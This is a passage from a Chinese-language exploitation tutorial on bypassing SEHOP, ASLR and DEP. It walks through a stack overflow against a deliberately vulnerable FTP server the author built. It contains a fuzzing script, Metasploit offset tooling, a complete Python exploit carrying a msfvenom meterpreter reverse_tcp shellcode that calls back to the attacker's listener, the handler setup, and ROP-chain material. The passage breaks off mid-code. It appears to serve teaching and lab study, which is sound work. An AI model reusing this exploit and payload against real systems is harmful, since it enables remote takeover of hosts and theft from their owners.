SEHOP（SEH Overwrite Protection）技术是微软在`Windows Vista`中引入的一种强化保护措施，旨在提高`SEH处理程序`的安全性。SEHOP通过验证整个异常处理链表的完整性，防止攻击者通过覆盖单个`SEH`处理程序来破坏整个链表，从而使得`SEH`处理程序难以被利用。

SEHOP的实现原理是在程序运行时对异常处理链表进行验证，确保链表中每个异常处理程序的指针都指向有效的代码段，并且链表中每个元素都是按照规定的顺序排列的。如果检测到异常处理链表被破坏，SEHOP会立即抛出一个异常，停止程序的执行。

**如何绕过该保护**

为了绕过`SEHOP`保护机制，突破方法就是进一步伪造`SEH`链，该方法的核心是能够找到合适的跳板指令，且伪造最终异常处理函数指针应该与真实的相同，伪造最终异常处理函数指针前4字节（SEH链指针）应为`0xFFFFFFFF`，SEH链指针地址应该能被4整除即可。

需要补充一点，虽然伪造`SEH`链可以绕过`SEHOP`的保护，但是这种攻击方式需要了解目标程序的具体结构和代码实现，因此它的适用范围比较有限，也需要攻击者具有一定的技术水平和经验。同时，使用`SEHOP`技术仍然可以有效提高系统的安全性。

#### 5.1.4 ASLR地址布局随机化保护

**保护机制实现原理**

如上所说我们需要找到合适的跳板指令，但恰巧的是防守方在此基础上又添加了一个新的技术，`ASLR`地址空间布局随机化，该技术的核心原理是不让攻击者预测到布置在内存中的`ShellCode`的内存地址，因此即使溢出发生并成功填充内存，攻击者也无法得知将EIP指针跳转到何处，从而无法执行恶意代码。

ASLR（Address Space Layout Randomization）是一种内存随机化技术，它通过在每次程序运行时随机化程序的代码、数据和堆栈等内存空间的布局，使攻击者难以准确地预测代码和数据存放的位置，从而防止针对特定内存地址的攻击。该技术通常通过在操作系统内核中实现，对每个进程都使用不同的随机偏移量来布局内存空间，防止攻击者利用事先获取到的内存地址来进行攻击。同时，ASLR 技术还可以增加攻击者需要的时间和资源，因为攻击者需要在每次攻击前重新计算内存地址的位置。

ASLR 技术可以在一定程度上提高系统的安全性，但也有一些绕过它的攻击技术，比如通过泄露内存地址、使用内存泄漏漏洞等方式来获取目标内存的地址，进而绕过 ASLR 的保护。因此，在使用 ASLR 技术的同时，还需要结合其他安全措施来提高系统的安全性。

**如何绕过该保护**

针对`ASLR`技术，攻击者同样的找到了能够绕过的方式，主要是利用`堆喷射`技术 (Heap Spray)，通过使用脚本语言在堆上布置大量的含有`ShellCode`代码的指令块，从而增加某一个内存地址位于指令块中的命中率，通过执行概率实现挫败`ASLR`技术。

#### 5.1.5 DEP堆栈数据执行保护

**保护机制实现原理**

DEP保护直接切中了缓冲区溢出要害，数据执行保护将程序数据段所在的内存页面` (堆栈) `的属性强制设为`NX (不可执行)`，当程序执行这些内存页面上的数据时，将报错并禁止文件的执行，当今的CPU提供了硬件方面的安全防护，同样也支持了DEP保护技术。

DEP（Data Execution Prevention）是一种硬件和软件结合的保护机制，旨在防止攻击者利用缓冲区溢出等漏洞执行恶意代码。它通过将内存中的数据区域（如堆、栈和可执行代码）标记为可执行或不可执行来实现保护。

当攻击者试图在一个不可执行的内存区域中运行代码时，DEP机制就会触发异常，从而导致程序崩溃或者被终止。这种保护机制可以有效地防止攻击者利用缓冲区溢出等漏洞来执行恶意代码，从而提高系统的安全性。

**如何绕过该保护**

为了绕过DEP保护，攻击者提出了新的绕过方式 `ROP(返回导向编程)`，它是`ret2libc`的继承者，攻击者在溢出程序之后，并不去执行栈中的`ShellCode`代码，而是寻找程序中已加载的特殊指令块，配合栈上的压栈参数，将这些相对孤立的指令串联起来，形成一条链，并通过调用 `VirtualProtect`函数，将该栈设置为可执行属性，然后在执行栈中的`ShellCode`代码。

### 5.2 基于ROP漏洞挖掘与利用

通常情况下栈溢出可能造成的后果有两种，一类是本地提权另一类则是远程执行任意命令，通常C/C++并没有提供智能化检查用户输入是否合法的功能，同时程序编写人员在编写代码时也很难始终检查栈是否会发生溢出，这就给恶意代码的溢出提供了的条件，利用溢出攻击者可以控制程序的执行流，从而控制程序的执行过程并实施恶意行为，本章内容笔者通过自行编写了一个基于网络的FTP服务器，并特意布置了特定的漏洞，通过本章的学习，读者能够掌握漏洞挖掘的具体流程，及利用方式，让读者能够亲自体会漏洞挖掘与利用的神奇魔法。

栈溢出是缓冲区溢出中最为常见的一种攻击手法，其原理是，程序在运行时栈地址是由操作系统来负责维护的，在我们调用函数时，程序会将当前函数的下一条指令的地址压入栈中，而函数执行完毕后，则会通过ret指令从栈地址中弹出压入的返回地址，并将返回地址重新装载到EIP指令指针寄存器中，从而继续运行，然而将这种控制程序执行流程的地址保存到栈中，必然会给栈溢出攻击带来可行性。

#### 5.2.1 溢出是如何产生的

通常情况下C语言中提供了一系列的标准函数，这些标准函数如果使用不当则会造成意想不到的后果，例如`strcpy()`函数如果读者在编程时没有检查用户输入数据有效性，则将会产生严重的溢出后果，如下提供一种简单的具有漏洞的代码片段，以帮助读者理解漏洞的产生原因及利用技巧，首先读者需要将代码保存为`overflow.c`文件；
```C
#include <stdio.h>
#include <string.h>

void geting(char *temp)
{
    char name[10];
    strcpy(name, temp);
    printf("input name = %s \n", name);
    printf("input size = %d \n", strlen(name));
}

int main(int argc,char *argv[])
{
    geting(argv[1]);
    return 0;
}
```

请自行打开VS编译器中的开发人员命令提示，然后执行`cl /Zi /GS- overflow.c`编译并生成可执行文件，参数中的`/GS-`就是关闭当前的GS保护。



上述案例就是利用了`strcpy()`函数的漏洞从而实现溢出的，程序运行后用户从命令行传入一个参数，该参数的大小是不固定的，传入参数后由内部的`geting()`函数接收，并通过`strcpy()`函数将临时数据赋值到`name`变量中，最后将其打印出来，很明显代码中并没有对用户输入的变量进行长度的限定，而正是因为如此从而导致缓冲区溢出漏洞的产生。

我们开始分析程序，由于`overflow.exe`程序需要命令行传参分析，所以读者应该将`overflow.exe`程序复制到`x64dbg`调试器目录下，并在CMD中执行；



我们需要在命令行界面中来启动调试器，其中第一个参数`overflow.exe`就是程序名，第二个参数是传入的命令行参数，我们知道缓冲区长度是`10`个字符，为了能够让程序产生溢出，此处输入的数据必须要大于`10`个字节，这里我就输入一串`lysharkAAAAAAAAABBBB`字符串，如下图所示，当程序被运行时`EDX寄存器`指向的则是我们自定义输入的字符串，由于要调用`CALL`指令，此处的`CALL`指令代表的是`geting`函数，所以需要将`EDX`字符串压栈存储，而在进入`geting`函数之前，CALL指令需要将自身下一条指令压栈存储，但此时由于我们输入的数据大与栈地址所能容纳的最大值，因此在压栈时势必会造成覆盖栈空间的情况产生；



接着我们继续进入到`geting`函数的内部，当该函数被执行时首先第一步则是在堆中取出字符串并打印，而当函数调用到`Ret`返回时此时程序会在堆栈中取出返回地址填充之`EIP`指针中，但此时的早已被`AAAA`所覆盖。



我们来看一下当前堆栈中的数据，可以看到在程序调用Ret时，EIP一定会被填充为一串毫无意义的`42424242`的内存地址，而当这段连续的A被替换成`ShellCode`的反弹地址时则此时将会发生可怕的事情。



至此我们还差一个关键的跳转步骤，上图中的`424242`我们需要填充为一个能够跳转到当前堆栈中的跳转指令地址，这类跳板指令可以使用`jmp esp`或`call esp`指令，因为我们的`ShellCode`在堆栈中存储着，为了能执行这段恶意代码，我们需要将`42424242`替换为具有`Jmp ESP`功能的指令片段，来让其能够跳转到堆栈中。

在x64dbg调试器中此类指令集的搜索很容易实现，读者可通过`Ctrl+B`指令调出特征码搜索功能来实现搜索，本例中我们搜索`kernelbase.dll`模块，并在其中寻找`Jmp ESP`指令集，需要注意的是此类指令集的机器码为`FF E4`当然如果是`Call ESP`则特征值为`FF D4`如果有其它需求读者可自行转换。

为了实现搜索特征码读者需要切换到`kernelbase.dll`模块，通过在内存布局中点击`.text`节即可完成切换，当然如果其他模块中存在此类特征也是可以使用的，选择此模块是因为此模块中存在。



接着按下`Ctrl+B`输入`FFE4`特征码，实现搜索功能，如下图所示，其中的三个地址都是可以被利用的跳板；



此时我们以`0x7537829C`为例，为了模拟这个流程修改堆栈中的`0x42424242`为`0x7537829C`则当程序返回时会自动跳转到`0x7537829C`地址处；



而`0x7537829C`地址为`Jmp ESP`指令，也就是指向了当前的内存堆栈地址；



当程序被执行此跳板时，则会跳转到当前堆栈的内存区域，而如果此处是攻击者构造好的一块恶意`ShellCode`代码，则将会实现反弹后门的目的，并以此获取主机的完全控制权；



至此一个简单的缓冲区溢出漏洞就分析完毕了，经过分析可知，我们的`ShellCode`恶意代码应该这样构建，其形式是：`AAAAAAAAAAAAAAAA BBBB NNNNNNN ShellCode`

> 这里的A代表的是正常输入内容，其作用是正好不多不少的填充满这个缓冲区
> 这里的B代表的是`Jmp Esp`的机器指令，该处应该为0x7537829C
> 这里的N代表`Nop`雪橇的填充，一般的20个Nop左右就好
> 这里的`ShellCode`就是我们要执行的恶意代码

由上面的关键点可以总结出最终的输入方式，程序运行后会先跳转到`Jmp Esp`并执行该指令，然后`Jmp Esp`会跳转到`Nop`雪橇的位置，此时程序的执行流会顺着`Nop`雪橇滑向`ShellCode`恶意代码，当恶意代码被执行则攻击者即可获取到反弹权限。

 - Ax16 + jmp esp + nopx20 + ShellCode

至此读者可通过上述总结构建出如下所示的漏洞利用代码片段，此时调用`overflow.exe`则会实现反弹后门的功能，也就预示着攻击成功了；
```Python
import os

os.system(b"overflow.exe
    AAAAAAAAAAAAAAAA
    \x75\x37\x82\x9c
    \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
    \xba\x1a\x77\xba\x2b\xd9\xee\xd9\x74\x24\xf4\x5e\x29\xc9"
)
```

#### 5.2.2 漏洞分析与挖掘

在前面的简单分析中详细读者已经能够理解缓冲区溢出是如何产生又是如何利用的了，为了演示远程栈溢出攻击的具体手法以及二进制漏洞挖掘与利用的思路，这里笔者编写了`FTPServer`远程服务程序，该服务运行后会在本机开启`0.0.0.0:9999`端口，读者可以通过`netcat`工具远程连接到服务器并可以执行一些基本的命令。



如上图就是运行后的FTP服务器，通过`netcat`工具链接服务端的地址`nc 192.168.9.118 9999`可以得到一个FTP交互环境，此时可以执行`send | hello world`命令，来向服务器发送一段字符串，同时服务器会返回给你`Data received successfully`这样的提示信息，如下图所示；



要执行漏洞挖掘第一步则是要从分析数据包开始，这里使用了`WireShark`工具，Wireshark 是一款免费的网络分析软件，它可以用于捕获、分析和解释网络通信数据。它可以读取多种网络协议，包括`TCP、UDP、HTTP、DNS`等，并将它们以图形化的形式显示出来，从而帮助用户更直观地理解网络流量。Wireshark还支持许多强大的分析功能，如协议分析、流量分析等，它是一个功能强大、易用的网络分析工具。

如果读者使用了`Kali`系统，则默认会安装有该工具，请读者打开`Kali`菜单栏，并找到`嗅探/欺骗`菜单并点击`WireShark`则可启动该软件；



当软件被启动后，读者可通过点击页面中的`eth0`网卡来实现监控数据包的功能，执行模糊测试的第一步就是要确定发送数据包中包头的格式，通过Wireshark工具监控TCP流，将源地址设置为本机的`192.168.9.135`目标地址设置为`192.168.9.118`，设置过滤语句，监控并从中得到数据传输的格式信息。

 - 过滤语句：`tcp.stream and ip.src_host==192.168.9.135 and ip.dst_host==192.168.9.118`



此时读者再次执行`send | hello lyshark`并在此时会抓取到一些数据包，通过对数据包的分析与提取最终确定如下内容，内容中则包含了发送到服务端的具体数据格式。



上图中我们可以直观的看出，数据包的格式仅仅是`send | hello lyshark`并没有添加任何的特殊符号，更没有加密传输，接下来就是要验证对端是否存在缓冲区溢出了，这里我们需要编写一个模糊测试脚本来对目标服务进行测试，脚本内容如下，该脚本执行后会对目标FTP服务进行发包测试，每次递增1不断尝试。

具体来说，它使用`socket`模块创建一个`TCP`套接字，然后连接到指定的`IP`地址和端口号，发送一系列的缓冲区`（payload）`并观察程序的行为。如果程序崩溃或出现异常，则说明发现了漏洞。

下面是代码的主要功能：
 - initCount(count, Inc)：该函数用于初始化缓冲区，返回一个包含多个字符串的列表，这些字符串递增地包含 A 字符，每个字符串的长度递增 count，直到长度超过 50 个字符。count 的初始值为 0，每次递增量为 Inc。
 - Fuzz(addr, port, buffer)：该函数对指定的 IP 地址和端口号执行模糊测试。它遍历缓冲区中的所有字符串，并尝试连接到目标主机，发送字符串并等待一段时间。如果发送的字符串长度超过了目标应用程序能够处理的最大长度，则函数会捕获异常并提示。函数返回 None。

```Python
# coding:utf-8
import socket,time

def initCount(count,Inc):
    buffer = ["A"]
    while len(buffer)<=50:
        buffer.append("A" * count)
        count = count + Inc
    return buffer

def Fuzz(addr,port,buffer):
    try:
        for string in buffer:
            sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            connect = sock.connect((addr,port))
            sock.recv(1024)
            command = b'send |/.:/' + string.encode()
            sock.send(command)
            sock.close()
            time.sleep(1)
            print('Fuzzing Pass with {} bytes'.format(len(string)))
    except Exception:
        print('\n This buffer cannot exceed the maximum {} bytes'.format(len(string)))

if __name__ == "__main__":
    # initCount 10 说明从0开始递增,每次递增100
    buff = initCount(0,100)
    Fuzz("192.168.9.118",9999,buff)
```

上方的代码的构造需要具体分析数据包的形式得到，在漏洞模糊测试中上方代码中间部分的交互需要根据不同程序的交互方式进行修改与调整，这里测试脚本执行后当缓冲区填充为`2100bytes`时程序崩溃了，说明该程序的`send`函数确实存在缓冲区溢出漏洞，其次该程序缓冲区的大小应在`2100-2200`字节以内。



由于模糊测试时程序发生了崩溃现象，我们可知该程序确实存在溢出漏洞，为了能让读者更加深入的理解缓冲区发生的原因和定位技巧，笔者将具体分析其汇编代码的组织形式，这里为了方便演示我将在被攻击主机进行逆向分析。

首先被攻击主机打开`x64dbg`将FTP程序载入并运行，接着我们按下`Ctrl + G`在`recv`函数上下一个断点，因为程序接收用户输入的功能需要使用`recv`函数的，所以这里我们直接下断，然后运行程序，在客户端发送数据`send | hello lyshark`后会被断下，由于我们将断点下在了`ws2_32.dll`模块内，此时需要运行到该模块返回，并跳出该系统模块。



直接回到程序领空，会看到如下图所示的代码片段，这里我们需要在`0x0040148D`这个内存地址处下一个`F2`断点，然后取消系统领空中`recv`上的断点。



通过再次发送`send | hello lyshark`程序会被断下，我们单步向下跟进会发现下面的代码片段，这里正是我们的`send`函数所执行的区域，此处我们记下这个内存地址`0x004017D5` 观察反汇编代码可知，`0x4017DB`位置处分配了内存长度为`BB8`的区域，并直接调用`memset`函数完成了内存填充，这里由于没有严格的过滤检查所以会产生缓冲区溢出问题；



为了能够更加明确的确定此处产生问题的根源，我们还需要使用IDA这款静态分析软件，打开`IDA Pro`加载程序并按下`G键`，来到`0x4017DB`内存地址处，如下图所示；



并分析如下代码片段，此处的溢出点为`_Function3`函数的内部，在传入参数时将分配的变量`3000`个字节的缓冲区，直接传递给了`_Function3`函数，此处是犯下的第一个错误，当然如果开发者在`_Function3`函数内部进行了补救这个错误也不会致命；



接着我们继续跟进这个`call _Function3`函数，会发现子过程内部并没有对接收缓冲区大小进行严格的过滤，强制将`3000byte`的数据拷贝到`2024byte`的缓冲区中，此时缓冲区就会发生溢出，从而导致堆栈失衡程序崩溃，这和上方的模糊测试脚本得到的结果是差不多的。至此唯的补救机会已经失去了；



为了能够更加精确的计算出缓冲区的具体大小，我们还需使用`Metasploit`中集成工具，该工具默认需要一起配合使用，其原理就是利用了随机字符串计算当前字符串距离缓冲区首部的偏移，通过使用唯一字符串法，我们可以快速定位到当前缓冲区的实际大小，要使用`Metasploit`的工具需要先配置好环境变量，你可以先执行以下操作，然后再利用`pattern_create.rb`生成长度为`3000`字节的字符串。
```BASH
┌──(lyshark㉿kali)-[~]
└─$ cd /usr/share/metasploit-framework/tools/exploit                                                                                 

┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ bundle install

┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_create.rb -l 3000
```

当读者执行`pattern_create.rb`生成模糊测试字符串时，接着读者需要准备要一段可发送这段字符串的Python程序，并将字符串填充至`buffer`变量内，构建出如下所示的代码用例；
```Python
# coding:utf-8
import socket

host = "192.168.9.118"
port = 9999

sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((host,port))
command = b'send |/.:/'
buffer = b '<字符串填充到这里>'

sock.send(command + buffer)
sock.close()
```
当读者填充好数据以后，远程主机再次通过`x64dbg`附加，并运行如上放所示的攻击脚本，此时调试器会产生一个异常，并且显示当前EIP的位置为`0x6F43376F`如下图所示；



接着读者可以通过使用`Metasploit`中提供的第二个工具`pattern_offset.rb`计算出当前缓冲区的实际大小是`2002`接着就可以写出漏洞利用的基础框架，其中的`EIP`是一个未知数，我们暂且先用`BBBB`来填充，此时的`BBBB`所对应的是`42424242`
```BASH
┌──(lyshark㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_offset.rb -q 0x6F43376F -l 3000
[*] Exact match at offset 2002
```
至此读者可根据上述代码案例写出如下所示的Python代码，其中`command`为发送数据包所需要的特有格式，`buffer`则填充为`2002`字节也就是正常缓冲区的长度，接下来则是EIP的位置，此处暂且使用`BBBB`代替，最后是NOP雪橇的50个字符长度。
```Python
# coding:utf-8

import socket
host = "192.168.9.118"
port = 9999

sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((host,port))
command = b"send |/.:/"
buffer = b'A' * 2002
eip = b'BBBB'
nops = b'\x90' * 50 

sock.send(command + buffer + eip + nops)
sock.close()
```

当我们再次执行这个溢出脚本时，对着会发现FTP服务器的`EIP指针`已经被替换成了`42424242`也就是替换为了`BBBB`的机器码格式；



而再看堆栈中的数据，此时也已经被`90909090`就是Nop雪橇，以及我们精心构造的数据填充满了；



这说明我们的预测与分析完全正确，此时针对该漏洞的分析工作就结束了；

#### 5.2.3 寻找JMP跳板指令

在上面环节中我们已经确定了填充物的大小，但程序每次运行其栈地址都是随机变化的，这是因为堆栈空间默认是由操作系统调度分配的每次分配都不会一致，在Windows漏洞利用过程中，由于程序的装入和卸载都是动态分配的，所以Windows进程的函数栈帧可能`产生移位`，即`ShellCode`在内存中的地址是`动态变化`的，因此需要`Exploit(漏洞利用代码)`在运行时动态定位栈中的`ShellCode`地址。

此时我们需要寻找一个跳板，能够动态的定位栈地址的位置，在这里我们使用`jmp esp`作为跳板指针，其基本思路是,使用内存中任意一个`jmp esp`地址覆盖返回地址，函数返回后被重定向去执行内存中`jmp esp`指令，而ESP寄存器指向的地址正好是我们布置好的`nop雪橇`的位置，此时EIP执行流就会顺着nop雪橇滑向我们构建好的恶意代码，从而触发我们预先布置好的ShellCode代码。

**选择利用模块:** 首先通过x64dbg调试器附加FTP程序，然后选择符号菜单，这里可以看到该服务程序加载了非常多的外部DLL库，我们可以随意选择一个动态链接库跳转过去，这里为了通用我就选择 `network.dll` 这个模块作为演示,模块的选择是随机的,只要模块内部存在 `jmp esp` 指令或者是能够跳转到nop雪橇位置的任何指令片段均可被利用。



**搜索JMP跳板:** 接着在调试器的反汇编界面中，按下`Ctrl + F`搜索该模块中的`jmp esp`指令，因为这个指令地址是固定的，我们就将EIP指针跳转到这里，又因esp寄存器存储着当前的栈地址，所以刚好跳转到我们布置好的nop雪橇的位置上，如下图我们就选择 `625011ED` 这个代码片段。



#### 5.2.4 组合脚本并攻击

至此针对本应用程序的漏洞挖掘与分析就分析完成了，既然所有条件都满足了接下来就是生成漏洞利用代码了，这里我们可以通过MSF提供的`msfvenom`命令快速的生成一个32位的有效攻击载荷，并将其与我们得到的内存地址进行组装，需要注意的是此处指定的`lhost`是攻击主机的IP地址，此处指定的`lport`需要开启一个与9999端口不冲突的端口，并最后生成Python格式的攻击载荷；

```BASH
┌──(lyshark㉿kali)-[~]
└─$ msfvenom -a x86 --platform Windows \
> -p windows/meterpreter/reverse_tcp -b '\x00' lhost=192.168.9.135 lport=8888 -f python

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of python file: 1887 bytes
buf =  b""
buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
[省略符]
buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"
```

如上所示，既然有了攻击载荷，接下来则是将生成的`ShellCode`与`Python`攻击脚本相结合，此时读者需要注意`host=192.168.9.118`指定的是被攻击主机的IP地址，此处的`command`代表的是默认发包是所遵循的发包格式，此处的`buffer`代表正常的填充物，此处的`EIP`则代表`Jmp ESP`的实际跳转地址，此处`nops`是NOP雪橇，最后通过`command + buffer + eip + nops + buf`将攻击载荷进行组装，即可写出如下所示的完整攻击代码；
```Python
# coding:utf-8

import socket
host = "192.168.9.118"
port = 9999
sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
sock.connect((host,port))
command = b"send |/.:/"      # 发送数据包头
buffer = b'A' * 2002         # 实际缓冲区填充物
eip = b'\xED\x11\x50\x62'    # 此处就是EIP跳转地址地址应该反写
nops = b'\x90' * 50          # nop雪橇的位置

buf =  b""
buf += b"\xda\xd6\xb8\x8e\x0b\x73\x3d\xd9\x74\x24\xf4\x5f"
buf += b"\x2b\xc9\xb1\x59\x31\x47\x19\x83\xc7\x04\x03\x47"
buf += b"\x15\x6c\xfe\x8f\xd5\xff\x01\x70\x26\x9f\x88\x95"
buf += b"\x17\x8d\xef\xde\x0a\x01\x7b\xb2\xa6\xea\x29\x27"
buf += b"\x86\x13\xc2\xf0\xa2\xcd\x56\x8c\x1a\x20\xa9\xdd"
buf += b"\x67\x23\x55\x1c\xb4\x83\x64\xef\xc9\xc2\xa1\xb9"
buf += b"\xa4\x2b\x7f\x6d\xcc\xe1\x90\x1a\x90\x39\x90\xcc"
buf += b"\x9e\x01\xea\x69\x60\xf5\x46\x73\xb1\x7e\x1e\x6b"
buf += b"\xba\xd8\xbf\x8a\x6f\x88\x3a\x45\xfb\x14\x74\xa9"
buf += b"\x4d\xef\x42\xde\x4f\x39\x9b\x20\xe3\x04\x13\xad"
buf += b"\xfd\x41\x94\x4e\x88\xb9\xe6\xf3\x8b\x7a\x94\x2f"
buf += b"\x19\x9c\x3e\xbb\xb9\x78\xbe\x68\x5f\x0b\xcc\xc5"
buf += b"\x2b\x53\xd1\xd8\xf8\xe8\xed\x51\xff\x3e\x64\x21"
buf += b"\x24\x9a\x2c\xf1\x45\xbb\x88\x54\x79\xdb\x75\x08"
buf += b"\xdf\x90\x94\x5f\x5f\x59\x67\x60\x3d\xcd\xab\xad"
buf += b"\xbe\x0d\xa4\xa6\xcd\x3f\x6b\x1d\x5a\x73\xe4\xbb"
buf += b"\x9d\x02\xe2\x3b\x71\xac\x63\xc2\x72\xcc\xaa\x01"
buf += b"\x26\x9c\xc4\xa0\x47\x77\x15\x4c\x92\xed\x1f\xda"
buf += b"\xdd\x59\x16\x9d\xb6\x9b\x29\x83\xfe\x12\xcf\x93"
buf += b"\xae\x74\x40\x54\x1f\x34\x30\x3c\x75\xbb\x6f\x5c"
buf += b"\x76\x16\x18\xf7\x99\xce\x70\x60\x03\x4b\x0a\x11"
buf += b"\xcc\x46\x76\x11\x46\x62\x86\xdc\xaf\x07\x94\x09"
buf += b"\xc8\xe7\x64\xca\x7d\xe7\x0e\xce\xd7\xb0\xa6\xcc"
buf += b"\x0e\xf6\x68\x2e\x65\x85\x6f\xd0\xf8\xbf\x04\xe7"
buf += b"\x6e\xff\x72\x08\x7f\xff\x82\x5e\x15\xff\xea\x06"
buf += b"\x4d\xac\x0f\x49\x58\xc1\x83\xdc\x63\xb3\x70\x76"
buf += b"\x0c\x39\xae\xb0\x93\xc2\x85\xc2\xd4\x3c\x5b\xed"
buf += b"\x7c\x54\xa3\xad\x7c\xa4\xc9\x2d\x2d\xcc\x06\x01"
buf += b"\xc2\x3c\xe6\x88\x8b\x54\x6d\x5d\x79\xc5\x72\x74"
buf += b"\xdf\x5b\x72\x7b\xc4\x6c\x09\xf4\xfb\x8d\xee\x1c"
buf += b"\x98\x8e\xee\x20\x9e\xb3\x38\x19\xd4\xf2\xf8\x1e"
buf += b"\xe7\x41\x5c\x36\x62\xa9\xf2\x48\xa7"

sock.send(command + buffer + eip + nops + buf)
sock.close()
```

最后读者使用`Metasploit`框架的命令行界面来配置一个攻击。该代码使用了`exploit/multi/handler`模块，该模块是`Metasploit`框架中的一个通用攻击模块，用于监听反向连接。代码中`set payload`命令来设置攻击的有效载荷，本例中使用的是 `windows/meterpreter/reverse_tcp`最后使用`set`设置主机IP及PORT端口，最后执行`exploit`命令启动侦听器，等待反弹；
```Python
┌──(lyshark㉿kali)-[~]
└─$ msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.9.135
msf exploit(multi/handler) > set lport 8888
msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.9.135:8888
```

当一切准备就绪之后我们运行`fuck.py`攻击脚本，此时即可得到目标主机的完全控制权，当下目标主机已经沦为肉鸡任人宰割。



上方笔者所演示的就是典型的基于内存的攻击技术，该技术的优势就是几乎很难被发现，100%的利用成功率，内存攻击技术就是利用了软件的安全漏洞，该漏洞的产生表面上是开发人员没有对缓冲区进行合理的检测，但其根本原因是，现代计算机在实现图灵模型时，没有在内存中严格区分数据和指令，这就存在程序的外部输入很有可能被当作指令来执行，当今任何操作系统都很难根除这种设计缺陷(图灵机特性)，只能在某种程度上通过引入特殊的技术(DEP保护机制)去阻止黑客的成功利用。

#### 5.2.5 ROP绕过DEP保护

笔者前期提到过，缓冲区溢出的根本原因就是错误的将用户输入的恶意数据当作了指令来执行了从而导致发生溢出，因此微软推出了基于软件实现的`DEP保护`机制，其原理就是强制将`堆栈`属性设置为`NX`不可执行，而在后期AMD也首次推出了基于硬件实现的CPU处理器，从而很大程度上解决了这类溢出事件的发生。

而随着DEP技术的出现，黑客们就研究出了另一种绕过的措施，就是本次所提到的`ROP返回导向`编程，在微软系统中有这样的一些函数他们的作用就是可以将堆栈设置为可读可写可执行属性`(VirtualProtect)`之所以会出现这些函数是因为，有些开发人员需要在堆栈中执行代码，所以也不可能将这样的功能彻底去掉。

既然无法直接执行堆栈上的代码，但是代码段依然是可以被执行的，我们可以经过调用末尾带有`RET`指令的微小片段，而他们会返回到栈，并再次调用令一块片段，以此类推，众多的小片段就可以完成调用`VirtualProoect`函数的功能，从而将当前堆栈设置为可执行，这样堆栈中的代码就可以被执行下去。

关于`VirtualProoect`函数，该函数用于更改指定内存区域的保护属性。函数的函数原型如下：
```C
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD flNewProtect,
  PDWORD lpflOldProtect
);
```

该函数有四个参数：

 - lpAddress：指向目标内存区域的指针。
 - dwSize：要更改保护属性的内存区域的大小，以字节为单位。
 - flNewProtect：请求的新保护属性。
 - lpflOldProtect：一个指向变量的指针，用于保存旧的保护属性。

返回值为 BOOL 类型，如果函数成功执行，则返回非零值，否则返回零。

需要注意的是：在构建`ROP链`的时候，如果`RET返回`之前是一个影响堆栈的指令，那么我们就需要在`ROP堆栈链`的下方手动填充一些垫片来中和掉`POP`等指令对堆栈的影响，因为下一条指令也会从堆栈中取值，如果不中和掉这些无用代码的影响则`ROP链`将无法被正常执行，比如如下图这条代码`POP ECX`影响了堆栈，如果不是我们所需要调用的参数，那么我们就在他的下面填充一些填充物来中和一下。



但读者应该明白，这里所说的`绕过DEP`保护其实并不完善，其实我们并无法绕过，而仅仅只是寻找没有开启DEP保护的模块作为跳板使用，并依附于这些跳板指令构造出能够调用`VirtualProtect`函数的指令集，当该指令被调用，则自然DEP保护可以被关闭，在找到模块之前，必须判断哪些模块可以被使用，这里读者是否想到了`LyScript`插件中的扫描功能，如下代码将可以帮助读者以最快的速度验证当前进程中是否有我们所需模块；
```Python
from LyScript32 import MyDebug
import pefile

if __name__ == "__main__":
    # 初始化
    dbg = MyDebug()
    dbg.connect()
    
    # 得到所有加载过的模块
    module_list = dbg.get_all_module()
    for module_index in module_list:
        # 依次读入程序所载入的模块
        byte_array = bytearray()
        for index in range(0, 4096):
            read_byte = dbg.read_memory_byte(module_index.get("base") + index)
            byte_array.append(read_byte)

        oPE = pefile.PE(data=byte_array)
        # 数据不可执行 DEP => hex(pe.OPTIONAL_HEADER.DllCharacteristics) & 0x100 == 0x100
        if ((oPE.OPTIONAL_HEADER.DllCharacteristics & 256) != 256):
            print("{:15}\t\t".format(module_index.get("name")), end="")
            print("可利用\t\t\t",end="")

        print()
    dbg.close()
```

将`FTPServer.exe`拖入调试器内，并执行上方脚本，则可输出当前没有开启DEP保护的模块，例如代码中我故意编译进去了`network.dll`模块，该模块就没有开启DEP保护，那么就可被利用；



接下来就是构建一条可以实现关闭DEP内存保护的汇编指令集，如下所示则是通过汇编语言调用`virtualProtect`的ROP链；
```C
ret
pop eax
0xfffffcdf
add ebp, eax
pop eax
0xfffffdff
neg eax
pop ebx
0xffffffff
inc ebx
add ebx, eax
pop edx
0xffffffc0
neg edx
pop ecx
&writetable
pop edi
ret (rop nop)
pop esi
jmp [eax]
pop eax
ptr to virtualProtect()
jmp esp
```
读者可通过使用`LyScript`插件实现对这些内存地址的枚举搜索，以搜索`network.dll`模块为例，读者需要找到模块开始地址`0x62501000`以及模块的结束地址`0x62501fff - start_address`并通过调用`get_disasm_code`反汇编代码片段，通过`SearchOpCode()`函数循环搜索ROP指令片段，这段搜索代码如下所示；
```Python
from LyScript32 import MyDebug

def SearchOpCode(OpCodeList,SearchCode,ReadByte):
    SearchCount = len(SearchCode)
    for item in range(0,ReadByte):
        count = 0
        OpCode_Dic = OpCodeList[ 0 + item : SearchCount + item ]
        try:
            for x in range(0,SearchCount):
                if OpCode_Dic[x].get("opcode") == SearchCode[x]:
                    count = count + 1
                    if count == SearchCount:
